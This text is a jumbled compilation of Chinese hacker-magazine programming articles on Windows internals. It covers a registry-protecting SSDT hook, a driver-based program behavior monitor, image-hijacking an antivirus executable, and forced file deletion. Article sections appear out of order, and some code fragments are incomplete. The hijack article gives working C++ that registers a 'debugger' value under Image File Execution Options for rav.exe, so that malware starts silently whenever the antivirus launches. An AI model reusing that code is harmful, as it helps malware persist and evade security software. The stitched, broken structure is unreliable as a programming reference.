这段代码没有什么特别的，只是通过 MmMapIoSpace() 把交换缓冲区映射到内核中。另外把我们的代理函数的地址写到 SSDT 中（当然，我们这是在把实际的服务执行的地址保存到全局变量 RealCallee 以后这样做的）。为了改写服务表的适当入口，我们通过 MmMapIoSpace() 来映射目标地址。为什么要这样做？不管怎么说，我们已经可以存取服务表了，不是吗？问题是，服务表可能驻留在一段只读内存中。因此，我们必须检查一下我们是否有对目标空间的写权限，如果没有这个权限，那么在改写服务表之前，必须改变页面保护。你不认为这样一来工作太多了吗？因此，我们仅用 MmMapIoSpace() 来映射我们的目标地址，这样就不必担心任何的页面保护问题了。从现在开始，我们假定已有到目标页面的写权限了。现在让我们看一下我们的代理函数。

```cpp
ULONG __stdcall check(PULONG arg)
{
    HANDLE hand=0;
    PFILE_OBJECT file=0;
    POBJECT_HANDLE_INFORMATION info=0;
    ULONG a;
    char *buff;
    ANSI_STRING str;
    LARGE_INTEGER li;
    li.QuadPart=-10000;
    // 经由文件句柄得到要导入的 hiv 文件名
    hand=(HANDLE)arg[1];
    ObReferenceObjectByHandle(hand,0,0,KernelMode,&file,info);
    if(!file)return 1;
    RtlUnicodeStringToAnsiString(&str,&file->FileName,1);
    // 获取后缀名
    a=str.Length;
    buff=str.Buffer;
    while(1)
    {
        if(buff[a]=='.'){a++;break;}
        a--;
    }
    ObDereferenceObject(file);
    // 检查后缀名是否为 hiv，如果是，返回 1
    if(!stricmp(&buff[a],"hiv"))
    {
        RtlFreeAnsiString(&str);
        return 1;
    }
}
```

```cpp
// 现在，我们要询问用户的选择。
// 把文件名写入缓冲区，并等待直到用户显示响应
// 第一个 DWORD 表示我们可以继续
// 同步存取该缓冲区
KeWaitForSingleObject(&event,Executive,KernelMode,0,0);
strcpy(&output[8],buff);
RtlFreeAnsiString(&str);
a=1;
memmove(&output[0],&a,4);
while(1)
{
    KeDelayExecutionThread(KernelMode,0,&li);
    memmove(&a,&output[0],4);
    if(!a)break;
}
memmove(&a,&output[4],4);
KeSetEvent(&event,0,0);
return a;
}

// 代理函数用来替换 SSDT 中的函数
// 仅保存执行上下文并调用 check()
__declspec(naked) Proxy()
{
    _asm{
    // 保存执行上下文并调用check()
    // 后面的依赖于 check() 所返回的值
    // 如果返回值是 1，继续实际的调用。
    // 否则，返回 STATUS_ACCESS_DENIED
    pushfd
    pushad
    mov ebx,esp
    add ebx,40
    push ebx
    call check
    cmp eax,1
    jne block
    // proceed to the actual callee
    popad
    popfd
    jmp RealCallee
block:
    // return STATUS_ACCESS_DENIED
    popad
    // 恢复 SSDT 中的函数，一样返回错误 STATUS_ACCESS_DENIED，表示访问被拒绝
    mov eax,0xC0000022
    popfd
    ret 32
    }
}
```

proxy() 保存寄存器和标志，把一个指向服务参数的指针压入栈中并调用 check()。其他的依赖于 check() 所返回的值。如果 check() 返回 TRUE（也就是我们想要继续请求），那么 proxy() 将恢复寄存器和标志，并把控制权交给服务实现部分。否则，proxy() 将把 STATUS_ACCESS_DENIED 写入 EAX，恢复 ESP 并返回。从调用者的观点来看，这就像对 NtRestoreKey() 的调用失败一样，以错误状态 STATUS_ACCESS_DENIED 返回。

前置信息：VC  
关键词：编程、驱动、行为特征

### 打造自己的程序行为监视器

文／图 张东辉[shineast] 袁野

目前是一个杀毒软件急需大革命的时代，网络上的病毒、木马、蠕虫、恶意软件不断肆虐，尤其是各种木马、后门软件已经成灾。虽然传统的杀毒软件还在奋力抵挡病毒的入侵，但这种带有滞后性的杀毒思想已经难以满足保证用户安全的要求，很多未知的病毒，甚至 0Day 攻击经常出现，导致传统的杀毒手段很被动。从原理上讲，病毒特征码的杀毒方法是不能抵御这些未知病毒和 0Day 的，因为这些写未知病毒和 0Day 的朋友在暗处，而杀毒软件在明处，把这些未知病毒和 0Day 攻击放出来前，当然是通过大量测试的，命中率是相当高的，过常用杀毒软件这类是这些病毒的重要指标。能过、能免杀才是“王道”！——病毒的变形技术、免杀技术给传统的杀毒软件带来很大的压力。

在这样的局面下，涌现出了很多基于行为特征来杀毒的杀毒软件，还有一些主动防御杀毒软件，稍微使得局面有些好转。因此，笔者认为通过程序行为来查毒、杀毒的理念是今后安全领域研究的热点、重点。因此我的硕士毕设题目也选定了这样一个方向，研究基于行为特征的攻防技术。那么完整的、准确地得到任何一个程序在任何一个时刻的行为是我迈出的第一步，这应该说是最基础的，否则得不到程序的行为，任何后续的算法都是徒劳的。经过近一个月的时间，从零开始，学习驱动，解读 sysinternal 诸多软件，不断遇到问题、遇到困难，不断地做实验，不断地解决问题，终于打造出了自己的程序行为监视器 1.0 版——BehaviorMon 1.0。本文将我在这个过程中遇到的问题，使用的主要技术、代码详细整理出来，供读者参考。

最后，展示一下我写的小程序，如图6和图7所示。

#### 总结

主动防御技术与绕过技术的矛盾，正派生于攻与防的对立，谁也没法保证绝对的安全。这才是网络安全研究的动力和魅力。其实作为安全软件，既然站在防御的立场，就应该不断完善自身产品，能够对抗最新的、顶尖的攻击技术、绕过技术。这里希望微软能迅速完善自身的注册表保护功能，至少能拦截本文中的绕过技术，否则这些绕过技术若是被病毒广泛使用的话，后果就不堪设想了。

### 基于行为特征的杀毒逻辑

上面已经提到，基于行为特征来杀毒已经不同于传统的杀毒思想，化病毒文件特征码为行为特征。可能有的朋友会认为行为特征最后也会和文件特征码一样，带有先天的滞后性，而且误杀率会很高，这个问题在网上争论很高，一直没有统一的观点，仁者见仁、智者见智。而我不否认确实有些问题的存在，但事实上，仔细想想很多病毒，甚至是未知病毒，在行为方面都有很多相似或相同之处，这样一来，借助行为特征杀毒从原理上就可以很好地抵御未知病毒，并且同样一条特征，也许能够查杀更多的病毒。于是变形技术将被淘汰，与之而来的将是绕过技术的威胁，这就是目前涌现了很多针对主动防御软件的各种绕过技术出现的原因。这一点也说明了行为杀毒确实有一定程度的滞后性，不过绕过无非也是一种行为，提取其行为特征即可，与病毒文件的变形，绕过能有那么大的变化空间吗？这样就可以一步步将病毒逼向绝路。总的来说，我觉得行为杀毒一定会很有前景的。

关于行为特征的杀毒逻辑，仔细想想，其实很简单，我设计了一种基于行为特征的杀毒逻辑，如图1所示，虽然不知道杀毒软件公司是怎么做的，不过估计原理思想应该差不多吧。

图1 基于行为特征的杀毒逻辑

本系统分为4大模块：程序行为提取模块、恶意行为特征库模块、规则匹配模块、恶意行为回滚／恢复模块。各个模块的介绍如下。

- **程序行为提取模块**——通过 SSDT Hook 的方式，编写一个 Native API 拦截的驱动程序，能够实时地知道任何一个程序，在任何一个时刻调用了什么原生 API 函数，进而以此作为一个行为，在一段时间内该程序调用的这些函数组成的序列就作为这个程序的行为或行为序列。该模块的主要作用就在于高效、稳定地工作于 Ring0 上，从而提取所有程序的行为。
- **恶意行为特征库模块**——该模块主要作用在于通过大量的恶意程序、病毒、木马来训练并构建一个合理的恶意行为特征知识库，有了这个库就可以形成一些规则，只要一个程序的行为和某条规则匹配，就认定该程序是某种恶意程序。
- **规则匹配模块**——该模块用于在模块1实时地得到一个程序的动态行为序列后，高效准确地和上述的行为特征规则库匹配出是否是恶意程序。
- **恶意行为回滚／恢复模块**——该模块用于在检测出某个程序是恶意程序后，将其在检测之前所作的恶意行为进行回滚，或恢复对操作系统的各项更改。

当然，本文仅介绍程序行为提取部分内容，其他模块还在实现中，在后续的研究过程中将和读者见面。

#### 程序行为监视器（BehaviorMon）的实现

BehaviorMon 由两部分组成，一是后台驱动程序 BehaviorMon.sys；二是前台应用程序 BehaviorMon.exe。这里先把前台程序界面展示一下，如图2所示。其中蓝色显示的是注册表操作行为；紫色显示的是文件操作行为；红色显示的是内存操作行为；黑色显示的是其他操作行为。其实应该还有网络操作行为，但目前还未实现，将在下一个版本中完善。

另外，本程序主要参考了 sysinternal 公司的 RegMon 和 FileMon，因此界面上有很多相似之处，同时在功能方面有所加强。例如前台能够控制后台驱动动态地 hook 哪些 Native API，也可……

#### 编程解析

#### PROGRAMMING ANALYSE



图2 程序行为监视器（BehaviorMon）前台程序界面

以动态的 unhook，可以针对一个特定的程序进行行为监视。

前台程序运行起来后，要做的第一件事就是安装我们的驱动程序，而由驱动程序内部来创建一个虚拟设备（"\\Device\\BehaviorMon"）。这里安装驱动是通过服务来安装的，注意在创建服务 behaviormonservice 时要声明服务类型为内核驱动类型。具体看下面的代码和注释吧。

```cpp
// 安装设备驱动
// 安装了设备驱动后，设备驱动程序中负责创建一个新的虚拟设备
void CBehaviorMonView::setup()
{
    char namebuff[256];
    // get path to this .sys.file
    GetModuleFileName(0,namebuff,256);
    DWORD a=strlen(namebuff);
    while(1)
    {
        if(namebuff[a]=='\\')break;
        a--;
    }
    a++;
    strcpy(&namebuff[a],"BehaviorMon.sys");
    /*
    安装驱动程序流程：
    1、调用OpenSCManager()打开服务控制管理器
    2、调用CreateService()创建一个服务，服务类型为内核驱动
    3、调用OpenService()取得服务句柄，启动服务
    4、调用StartService()启动服务，停止服务
    4、调用ControlService()停止服务，删除服务
    4、调用DeleteService()删除服务
    5、调用CloseServiceHandle()关闭服务句柄
    */
    // create service
    // system("msiexec /unregserver");
    SC_HANDLE t;SERVICE_STATUS stat;
    SC_HANDLE man=OpenSCManager(0,0,SC_MANAGER_ALL_ACCESS);
```

```cpp
t=OpenService(man,"behaviormonservice",SERVICE_ALL_ACCESS);
ControlService(t,SERVICE_CONTROL_STOP,&stat);
DeleteService(t);
CloseServiceHandle(t);
if(man==NULL)
{displayError("打开服务管理器失败!");}
t=CreateService(man,"behaviormonservice","behaviormonservice",
    SERVICE_START|SERVICE_STOP,SERVICE_KERNEL_DRIVER,
    SERVICE_DEMAND_START,SERVICE_ERROR_NORMAL,namebuff,0,0,0,0,0);
if(t==NULL)
{displayError("创建服务失败!");}
if(0==StartService(t,0,0))
{displayError("启动服务失败!");}
```

驱动加载到内核空间后，开始执行入口函数 DriverEntry，该函数相当于 C 语言的 main 函数，它在驱动程序被加载进内存的时候调用。在该函数中，第一个任务就是创建设备和创建符号链接，第二个任务就是要设定驱动程序对象的几个函数指针。

```cpp
const WCHAR devicename[]=L"\\Device\\BehaviorMon";
const WCHAR devicelink[]=L"\\DosDevices\\BEHAVIORMON";
PDEVICE_OBJECT devobject=0; // 设备对象
UNICODE_STRING devlink,devname;
// 设备链接、设备名称
RtlInitUnicodeString(&devname,devicename);
RtlInitUnicodeString(&devlink,devicelink);
// 创建设备+创建符号链接
IoCreateDevice(driver,2048,&devname,FILE_DEVICE_UNKNOWN,0,TRUE,&devobject);
IoCreateSymbolicLink(&devlink,&devname);
// 设定驱动程序对象的几个函数指针
driver->MajorFunction[IRP_MJ_DEVICE_CONTROL]=DrvDispatch; // 派遣函数
driver->MajorFunction[IRP_MJ_CREATE]=DrvCreateClose;
driver->MajorFunction[IRP_MJ_CLOSE]=DrvCreateClose;
driver->DriverUnload=DrvUnload; // 卸载函数
```

有了 "\\DosDevices\\BEHAVIORMON" 这个设备符号链接后，我们就可以在前台使用 CreateFile 函数来访问我们的虚拟设备 "\\Device\\BehaviorMon" 了。下面是前台访问该设备，并通过 DeviceIoControl 函数控制驱动来 hook Native API 函数的代码。

```cpp
// 让驱动hook SSDT中指定的Native API
void CBehaviorMonView::hook()
{
    int i;
    hook_num=0;
    hook_API_info[hook_num++].nativeAPIname="NtRestoreKey";
    hook_API_info[hook_num++].nativeAPIname="NtOpenKey";
    hook_API_info[hook_num++].nativeAPIname="NtCreateKey";
    hook_API_info[hook_num++].nativeAPIname="NtQueryValueKey";
    hook_API_info[hook_num++].nativeAPIname="NtQueryKey";
    hook_API_info[hook_num++].nativeAPIname="NtDeleteKey";
    hook_API_info[hook_num++].nativeAPIname="NtDeleteValueKey";
    hook_API_info[hook_num++].nativeAPIname="NtSetValueKey";
    hook_API_info[hook_num++].nativeAPIname="NtEnumerateKey";
    hook_API_info[hook_num++].nativeAPIname="NtEnumerateValueKey";
    hook_API_info[hook_num++].nativeAPIname="NtOpenFile";
    hook_API_info[hook_num++].nativeAPIname="NtWriteFile";
    hook_API_info[hook_num++].nativeAPIname="NtCreateFile";
    hook_API_info[hook_num++].nativeAPIname="NtCreateProcess";
    hook_API_info[hook_num++].nativeAPIname="NtCreateProcessEx";
    hook_API_info[hook_num++].nativeAPIname="NtCreateSection";
    hook_API_info[hook_num++].nativeAPIname="NtOpenThread";
    hook_API_info[hook_num++].nativeAPIname="NtCreateThread";
    hook_API_info[hook_num++].nativeAPIname="NtOpenProcess";
    hook_API_info[hook_num++].nativeAPIname="NtOpenSection";
    hook_API_info[hook_num++].nativeAPIname="NtCreateSymbolicLinkObject";
    hook_API_info[hook_num++].nativeAPIname="NtSetSystemTime";

    // 安装设备驱动
    // setup();
    // MessageBox("设备驱动安装成功！","提示",MB_OK);

    DWORD controlbuff[2048];
    DWORD dw;
    // 打开设备
    if(!device)
```

```cpp
device=CreateFile("\\\\.\\BEHAVIORMON",GENERIC_READ|GENERIC_WRITE,0,0,OPEN_EXISTING,FILE_ATTRIBUTE_SYSTEM,0);
// Have driver zero information
if(!DeviceIoControl(device,IOCTL_BEHAVIORMON_ZEROSTATS,NULL,0,NULL,0,&dw,NULL))
    return; // 告诉设备驱动hook上面的函数

char * pcontrolbuff=(char *)controlbuff;
int offsetcontrolbuff=0;

// 填写交换缓冲区的地址
controlbuff[0]=(DWORD)&log_behavior[0];
offsetcontrolbuff+=4;

// 填写LOG_BEHAVIOR数组的大小
controlbuff[1]=LOG_BEHAVIOR_NUM;
offsetcontrolbuff+=4;

// 被Hook的NativeAPI的总个数
controlbuff[2]=hook_num;
offsetcontrolbuff+=4;

// 把前面要hook的Native API函数的基本信息(name,index)写入controlbuff
for(i=0;i<hook_num;i++){
    DWORD * addr=(DWORD *)((DWORD)GetProcAddress(GetModuleHandle("ntdll.dll"),hook_API_info[i].nativeAPIname));

    // 被Hook的NativeAPI的名称
    strcpy(pcontrolbuff+offsetcontrolbuff,hook_API_info[i].nativeAPIname);
    offsetcontrolbuff+=strlen(hook_API_info[i].nativeAPIname);
    offsetcontrolbuff+=1;

    // 被Hook的NativeAPI的Index
    // controlbuff[2]=addr[0]; // 函数调用地址的地址
    memmove(pcontrolbuff+offsetcontrolbuff,&addr[0],4);
    offsetcontrolbuff+=4;
}

DeviceIoControl(device,IOCTL_BEHAVIORMON_HOOK,controlbuff,2048,controlbuff,2048,&dw,0);
// 在设定时器程序开始接收对向驱动请求，输出来截获到的行为数据
Capture=TRUE;
```

注意上面向驱动输入的是 Native API 函数在 SSDT 表中的服务序号，即 Service Index。关于上面为什么要“+1”，大家可以到网上搜索看看关于 SSDT hook 相关的文章。进入驱动的派遣例程函数后，对控制号 IOCTL_BEHAVIORMON_HOOK 进行处理，具体如何实现 hook 的代码如下。

```cpp
case IOCTL_BEHAVIORMON_HOOK: // hook Native API function
    offsetbuff=0; // 获得要Hook的NativeAPI函数的个数
    numHookAPI=(DWORD)buff[8];
    offsetbuff+=12; // hook
    for(i=0;i<(int)numHookAPI;i++)
    {
        // 获得要Hook的NativeAPI函数的name
        strcpy(nativeAPIname,buff+offsetbuff);
```

```c
offsetbuff+=strlen(nativeAPIname);
offsetbuff+=1;
// 获得要Hook的NativeAPI函数的Index
memmove(&Index,buff+offsetbuff,4);
// 读出从前台输入的SSDT函数服务Index
offsetbuff+=4;
// 将上面得到的信息放在对应的Hook_API_Info中
for(j=0;j<hook_num;j++)
{
    if(strcmp(nativeAPIname,hook_API_info[j].nativeAPIname)==0)
    {break;}
}
if(j==hook_num)
{continue;}// 获得该函数的真实地址，并开始Hook
a=4*Index+(ULONG)KeServiceDescriptorTable->ServiceTable;
// 把正确的SSDT函数调用地址先备份到base中
base=(ULONG)MmMapIoSpace(MmGetPhysicalAddress((void*)a),4,0);
a=hook_API_info[j].proxyfunaddr;
_asm
{
    mov eax,base
    // 把正确的SSDT函数调用地址复制到eax中
    mov ebx,dword ptr[eax]
    mov RealCallee,ebx
    // RealCallee=ebx
    mov ebx,a
    // 使ebx指向HookXXXX()函数
    mov dword ptr[eax],ebx // 把SSDT中的正确函数调用地址改为HookXXXX()函数所在的地址
}
// 将上面得到的信息放在对应的Hook_API_Info中
hook_API_info[j].Index=Index;
hook_API_info[j].RealCallee=RealCallee;
hook_API_info[j].hooked=TRUE;
tmp=(char*)base;
MmUnmapIoSpace(tmp,4);// 获取与用户的交互缓冲区，buff中第一个DW就是其地址
memmove(&a,buff,4);
break;
```

hook 了 Native API 函数后，剩下的就是前台和后台驱动程序的通信，来获取拦截到的程序行为数据，然后在前台界面中的列表控件中显示出来。这部分前台应用程序和后台驱动程序通信的内容已经在我写的《深入分析 RegMon 的编程实现》一文中有详细的介绍，这里不再赘述。

#### 关键问题与解决方法

以上讲解了如何一步步安装驱动到实现 SSDT hook，但是实现行为监视，光拦截到 Native API 函数的调用行为还不够，还应该分析调用时传入的参数，得到有效信息。例如我们拦截到了一个程序调用了 NtOpenKey，但不知道 Open 的是哪个 Key，那有什么用，必须知道 Open 的是哪个 Key 才算截获了一个注册表操作行为。不仅是注册表，还有文件、内存操作等。在实现对 Native API 函数参数解析、得到有效信息的过程中，我遇到了如下的一些问题。

- 1）在驱动中获得调用 Native API 函数的进程对应 PE 文件的完整路径

```c
PCWSTR GetCurrentProcessFileName()
{
    DWORD dwAddress=(DWORD)PsGetCurrentProcess();
    if(KeGetCurrentIrql()!=PASSIVE_LEVEL)return NULL;
    if(dwAddress==0 || dwAddress==0xFFFFFFFF)
        return NULL;
    dwAddress += 0x1B0;
    if((dwAddress=*(DWORD*)dwAddress)==0) return 0;
    dwAddress += 0x10;
    if((dwAddress=*(DWORD*)dwAddress)==0) return 0;
    dwAddress += 0x3C;
    if((dwAddress=*(DWORD*)dwAddress)==0) return 0;
    KdPrint(("Current Process Full Path Name: %ws\n",(PCWSTR)dwAddress));
    return (PCWSTR)dwAddress;
}
```

上面这个函数想必大家都不陌生，在 Windows XP/2000 的驱动中可以得到当前进程的全路径。然而我在测试的时候发现，有些情况会出错，导致虚拟机直接蓝屏，让我想不通为什么。上面加粗的代码，是最终得到 ImageFile 这个 Unicode 字符串地址的代码。在这之前的一步，dwAddress 一般情况下就是 0x20000，而执行完加粗代码后，dwAddress 大概就是 0x2yyyy 的样子，反正比 0x20000 要大。然而有些时候，执行完加粗代码后，得到的好像不是 0x2yyyy，而是 0xyyyy，这样就没有得到 ImageFile 的地址，而是 0x20000 的偏移量。虽然我没有想清楚为什么 Windows 会这样搞，但这里可以对上面的函数做点修改，暂时得到正确的函数体来得到正确的 ImageFile 的地址，我修改的函数如下。

```c
PCWSTR GetCurrentProcessFileName()
{
    DWORD dwAddress=(DWORD)PsGetCurrentProcess();
    DWORD dwAddress1;
    if(KeGetCurrentIrql()!=PASSIVE_LEVEL)
        return NULL;
    if(dwAddress==0 || dwAddress==0xFFFFFFFF)
        return NULL;
    dwAddress += 0x1B0;
    ...
}
```

```c
if((dwAddress = *(DWORD*)dwAddress) == 0) return 0;
dwAddress += 0x10;
if((dwAddress = *(DWORD*)dwAddress) == 0) return 0;
dwAddress1 = dwAddress / 0x20000000;
dwAddress += 0x3C;
if((dwAddress = *(DWORD*)dwAddress) == 0) return 0;
if(dwAddress < dwAddress1)
    dwAddress = dwAddress + dwAddress1;
KdPrint(("Current Process Full Path Name: %ws\n", (PCWSTR)dwAddress));
return (PCWSTR)dwAddress;
```

```c
HANDLE filehandle;
char *filefullname_c;

VOID
GetFileFullNamebyFileHandle_QueryNameString(
    HANDLE filehandle,
    char *filefullname_c
);

VOID
GetFileFullNamebyFileHandle_forSection(
    HANDLE FileHandle,
    char *filefullname_c
);
```

经过我的修改后，无论在虚拟机中还是真实系统中，再也没有出现过蓝屏。这样修改也是比较保险的，至少不会在驱动中发生内存访问错误，否则就惨了！

2）从 FileHandle 到文件完整路径的方法

在 NtWriteFile、NtRestoreKey 等函数中，经常需要通过文件句柄 FileHandle 获得该文件的完整路径。我把我的几种方法整理如下。由于篇幅原因，函数内部实现请参见本文的程序源码（驱动部分）。

```c
VOID
GetFileFullNamebyFileHandle(
```

#### 结语

希望通过本文及源码能对大家有所帮助。事实上，驱动程序涉及的内容相当丰富，深入到了操作系统底层的每个角落，通过学习驱动程序编写，实践动手自己写这样一个 Behavior Mon，能够真切地感受到自己的知之甚少，总是感到还有很多很多需要学习，需要研究，时间总是那么少，而问题总是那么多！

这个程序行为监视器 1.0 版还需要继续完善，继续改进，继续丰富，欢迎有共同爱好的朋友登录黑防论坛，与我一起探讨学习。

前置知识：VC  
关键词：编程、映像劫持、注册表

### 映像劫持 VS 启动杀软

记得前一段时间，有个病毒如果没被清除干净，打开杀毒软件，病毒就会启动，死灰复燃，这是因为病毒映像劫持了杀毒软件。感觉这种启动方法很特别，在杀毒软件眼皮底下就悄悄地启动了，禁不住想了解一下原理。到网上查了一些资料，讲的都是怎么样劫持的，却不见启动。这里说的启动是在木马病毒启动后再启动杀软。如果劫持了杀软而只启动木马病毒，杀软却不能运行，肯定会引起怀疑的。由于没有找到资料，只能自己想了。

映像劫持是对注册表的操作（关于映像劫持请参考《黑客防线》其他相关文章，在这就不解释了），而以前木马文件关联启动也是对注册表的操作，思路应该是一样的。当运行杀软时被劫持，启动木马，会传递给木马程序一个参数，这个参数就是被劫持程序的路径，我们将这个路径提取出来准备用来启动它。然后将注册表中映像劫持相关的那个子键删除，不然运行的还是我们的程序，就会导致递归死循环。接下来就是将被劫持的程序，也就是杀软，用 WinExec 函数或相同功能的函数启动。最后还要将映像劫持的子键和值写入注册表，为下一次启动做准备。下面我就以劫持瑞星为例子来实现，具体代码如下。

```cpp
#include "stdafx.h"
#include <stdio.h>
#include <windows.h>

int main(int argc, char* argv[])
{
    char temp[256];
    DWORD ret;
    LPCTSTR szRegKey = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options";
    HKEY h_KEY;
    if(argc != 1)
    {
        memset(temp, 0, 256);
        strcpy(temp, argv[1]);
        for(int i = 0; i < strlen(temp); i++)
        {
            if(temp[i] == '\\') temp[i] = '/';
        }
        ret = RegOpenKeyEx(HKEY_LOCAL_MACHINE, szRegKey, 0, KEY_ALL_ACCESS, &h_KEY);
        if(ret == ERROR_SUCCESS)
        {
            if(ERROR_SUCCESS == RegDeleteKey(h_KEY, "rav.exe"))
            {
                RegCloseKey(h_KEY);
                WinExec(temp, SW_SHOW);
            }
            else
            {
                RegCloseKey(h_KEY);
            }
        }
        else
        {
            printf("open failed!\n");
        }

        memset(temp, 0, 256);
        GetModuleFileName(NULL, temp, 256);
        HKEY hResultKey = NULL;
        if(ERROR_SUCCESS == RegOpenKeyEx(HKEY_LOCAL_MACHINE, szRegKey, 0, KEY_ALL_ACCESS, &h_KEY))
        {
            DWORD dw;
            ret = RegCreateKeyEx(h_KEY, "rav.exe", 0, REG_NONE, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hResultKey, &dw);
            if(ret != ERROR_SUCCESS)
            {
                RegCloseKey(h_KEY);
                printf("create failed!\n");
                return 1;
            }
            printf("create ok!\n");
            ret = RegSetValueEx(hResultKey, "debugger", 0, REG_SZ, (const BYTE*)temp, strlen(temp) + 1);
            if(ret != ERROR_SUCCESS)
            {
                RegCloseKey(h_KEY);
                RegCloseKey(hResultKey);
                return 1;
            }
            RegCloseKey(h_KEY);
            RegCloseKey(hResultKey);
            printf("set ok!\n");
            MessageBox(NULL, "ok!", "成功", MB_OK);
            return 0;
        }
    }
}
```

我们将代码编译连接后运行，就成功修改了注册表。我们再运行瑞星（如果开了注册表监控瑞星会报告），程序执行，并且瑞星也成功运行了，如图1所示。如果要防止程序运行多次，可以创建互斥对象。

图1

由于映像劫持是对注册表进行操作，现在主动防御、注册表监控非常普遍，所以想利用映像劫持的前提是在管理员权限下，并且首先要突破监控才可以。本文是根据文件关联想到的方法，由于刚开始学编程，难免会有错误，希望大家批评指正，在此感谢。我在黑防论坛的 ID 是泪の痕，大家有什么想法，欢迎到论坛与我讨论。

前置知识：VC  
关键词：编程、文件删除、MoveFileEx 函数

### Ring3 下强行删除文件

#### 文件的攻与防

文 / 拿着蜗牛去散步

文件的强行删除技术对于安全软件来说，起着至关重要的作用。Windows 在处理文件上通过底层的 FAT.SYS 和 NTFS.SYS 驱动来处理，常规的流氓软件可能会在文件系统驱动上做手脚，病毒则会通过文件过滤驱动达到 Ring0 下的拦截作用。Ring3 下实现文件强行删除主要是先通过文件改名或调用 Windows NT 系统中一个用于替换系统文件的 MoveFileEx 函数来实现强行删除，KillBox 程序就是使用的这种方法。下面我们通过编程的方式讲述如何在 Ring3 环境中实现文件的强行删除以及如何保护文件防止被删除。

一种是直接替换文件，第二种方式为当系统下次启动时，csrss.exe 系统进程会执行替换操作，这就是为什么平时我们为 Windows 打补丁后提示重新启动计算机的原因。

MoveFileEx 函数在 MSDN 中的定义为：

```c
BOOL MoveFileEx(LPCTSTR lpExistingFileName,
                LPCTSTR lpNewFileName, DWORD dwFlags);
```

第一个参数 lpExistingFileName 表示将要替换、删除文件的完整路径；第二个参数 lpNewFileName 表示新的文件名称（被替换或删除的新文件名）；第三个参数 dwFlags 是关键，如果设置为 MOVEFILE_REPLACE_EXISTING，则代表直接替换存在的文件，而不是常规的类似 MoveFile() 那样的移动文件；如果 dwFlags 参数为 MOVEFILE_DELAY_UNTIL_REBOOT，则会在系统重启时删除，这样可以对付一些钉子户，但仍然无法对付系统引导时就加载的文件过滤驱动。

#### Ring3 下强制删除文件

Ring3 下强制删除文件主要有以下几种方法：

- 一是如果是 FAT/FAT32 磁盘格式，不需要编程，通过 WinHex 直接编辑磁盘物理扇区即可达到强制在 Ring3 下实现文件删除的目的；
- 二是 Ring3 下调用 ZwSetInformationFile() Native API 来实现删除；
- 三是将需要删除的文件先重命名，然后再删除，但该方法可能会因为文件只读共享方式打开，导致无法重命名；
- 四是使用更通用的支持 FAT/FAT32 及 NTFS 磁盘格式的方法来实现，其中使用 Windows NT 内核操作系统自带的 MoveFileEx() 这个 Win32 API 来删除比较简单方便。

MoveFileEx 函数是微软专门用来替换系统文件的，它常常被用于操作系统安装 Hotfix 更新时替换系统文件。它有两种工作方式，第一种是直接替换文件，第二种是重启时替换文件。

1）直接强行删除文件代码

```c
UpdateData(TRUE);
// 获取 IDC_EDIT m_strPath 变量值
if(m_strPath.Compare("") == 0)
{
    SetDlgItemText(IDC_TIP, "请输入需要删除的文件名称");
    return;
}
TCHAR szPath[_MAX_DIR] = {0};
TCHAR drive[_MAX_DRIVE] = {0};
TCHAR dir[_MAX_DIR] = {0};
strcpy(szPath, m_strPath);
// 分解路径，设置新的文件路径及文件名 none.tmp
```

```cpp
_tsplitpath(szPath, drive, dir, NULL, NULL);
memset(szPath, 0, sizeof(szPath));
strcat(szPath, drive);
strcat(szPath, dir);
strcat(szPath, "none.tmp");
if(MoveFileEx(m_strPath, szPath, MOVEFILE_REPLACE_EXISTING) > 0)
{
    if(DeleteFile(szPath) > 0)
    {
        SetDlgItemText(IDC_TIP, "删除文件成功");
        m_strPath = "";
    }
    else
    {
        // MoveFileEx 仍然无法删除，则重命名文件后删除
        rename(m_strPath, szPath);
        if(DeleteFile(szPath) > 0)
        {
            SetDlgItemText(IDC_TIP, "删除文件成功");
            m_strPath = "";
        }
    }
}
UpdateData(FALSE);
```

